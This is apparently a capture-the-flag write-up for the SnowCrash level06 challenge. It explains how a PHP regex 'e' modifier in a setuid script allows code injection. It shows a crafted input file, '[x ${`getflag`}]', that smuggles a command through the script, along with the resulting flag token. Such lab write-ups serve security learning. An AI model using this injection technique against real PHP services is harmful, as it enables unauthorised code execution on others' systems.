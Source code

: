 ## 1. Connect to level06:

```bash
level05@SnowCrash:~$ su level06
password: *use previously found flag*
```

## 2. See existing files:

```bash
level06@SnowCrash:~$ ls -l
    total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

## 3. Seef ile content

```bash
level06@SnowCrash:~$ cat level06.php
```

## 4. Use [PHP Beautifier](https://codebeautify.org/php-beautifier) to make the content readable

The `e` modifier allows arbitrary execution of PHP code. This can lead to **code injection vulnerabilities** if the input is not properly secured.


## 5. Make code injection

Create file for code injection
```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag.txt
```

Execute the binary file with the file you have created
```bash
level06@SnowCrash:~$ ./level06 /tmp/getflag.txt
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	 in /home/user/level06/level06.php(4) : regexp code on line 1
```